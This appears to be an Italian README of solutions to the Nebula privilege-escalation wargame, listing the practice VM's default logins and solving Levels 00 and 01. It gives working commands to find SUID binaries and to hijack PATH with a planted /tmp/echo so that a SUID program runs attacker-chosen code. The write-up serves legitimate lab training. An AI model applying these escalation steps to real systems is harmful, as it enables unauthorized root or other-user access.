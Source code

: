 # Nebula

## Info utili
20 challenge in totale. Si accede alle challenge con:
- **user**: levelN
- **passwd**: levelN

Gli account flagN contengono le vulnerabilità

Login amministratore:
- **user**: nebula
- **passwd**: nebula

Shell di root:
1. sudo -i
2. passwd: nebula

[Website](https://exploit.education/nebula/)

## Soluzioni challenge

### Level00

Cercare un file eseguibile che sia SUID con user flag00
```bash
find / -perm -4000 -user flag00 2> /dev/null
```

Eseguire il file ed eseguire getflag.

### Level01

L'eseguibile SUID /home/flag01/flag01 invoca echo utilizzando il comando *env*. Con questo comando non si invoca echo builtin ma si invoca echo esterno (quello in /bin). Si possono verificare il tipo di comandi echo disponibili mediante il seguente comando
```bash
type -a echo
```

Si può modificare l'ambiente per invocare con echo un binario arbitrario. Per farlo si crei un file in una qualsiasi cartella, ad esempio /tmp/echo.

```bash
touch /tmp/echo
```

Si imposti la variabile PATH in modo tale che il nuovo file sia trovato prima di quello originale.

```bash
PATH=/tmp:$PATH
```

A questo punto, si può procedere in due modi:
- si copia direttamente il binario di getflag nel binario malevolo
```bash
cp /bin/getflag /tmp/echo
```
- si crea uno script che invoca getflag tramite il file /tmp/echo
```bash
nano /tmp/echo
#inizio script
#!/bin/bash
getflag
###fine script
chmod a+x /tmp/echo
```
